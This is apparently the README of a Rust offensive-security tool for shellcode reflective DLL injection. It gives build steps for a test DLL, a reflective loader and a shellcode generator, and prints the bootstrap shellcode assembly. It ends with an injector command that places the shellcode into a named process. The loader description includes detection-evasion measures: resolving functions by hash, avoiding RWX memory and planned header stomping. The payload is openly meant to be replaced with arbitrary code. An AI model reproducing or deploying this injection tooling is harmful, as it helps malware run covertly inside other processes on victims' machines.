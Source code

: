 # Shellcode Reflective DLL Injection (sRDI)

Development in progress

## What is it?

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent shellcode which can then be injected using our favorite shellcode injection and execution technique.

## Usage

1. Build `testdll` project (feel free to modify the payload from `MessageBoxA` to whatever you want)
```
cd .\testdll\
cargo build
```

2. Build `reflective_loader` project. The loader will emulate `LoadLibraryA` and do additional things:

* Load required modules and exports by hash
* Allocate memory and copy DOS / NT headers and sections into the newly allocated memory (`VirtualAlloc` uses `RW` not `RWX`)
* Process image relocations (rebase image)
* Process image import table (resolve imports)
* Set protection for each section (`VirtualProtect` uses only what is necessary)
* Execute `DllMain` AND `USER_FUNCTION` (export address is retrieved via hash)

```
cd .\reflective_loader\
cargo build
```

3. Run `generate_shellcode` project. This will generate a `shellcode.bin` file that looks like this in memory:

```
-----------------------
| Bootstrap Shellcode |
-----------------------
| Reflective DLL      |
-----------------------
| User DLL            |
-----------------------
| User Data           |
-----------------------
```

This is the bootstrap shellcode that does the magic by passing the parameters and calling the reflective loader

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5

mov dword ptr [rsp + 0x28], <flags>

mov r9, <length of user data>
add r8, <user function offset> + <length of DLL>
mov edx, <hash of function>
add rcx, <offset of dll>

call <reflective loader address>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

```
cd .\generate_shellcode\
cargo run
```

4. Build `inject` or bring your own injector and inject `shellcode.bin` with your favorite shellcode injection and execution technique.

```
cd .\inject\
cargo build
```

```
inject.exe <process> <shellcode.bin>
```

## TODO
* Stomp / erase DOS and NT headers
* Free shellcode memory and exit thread (This can be done by the user)
* x86 support (mostly already done)

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/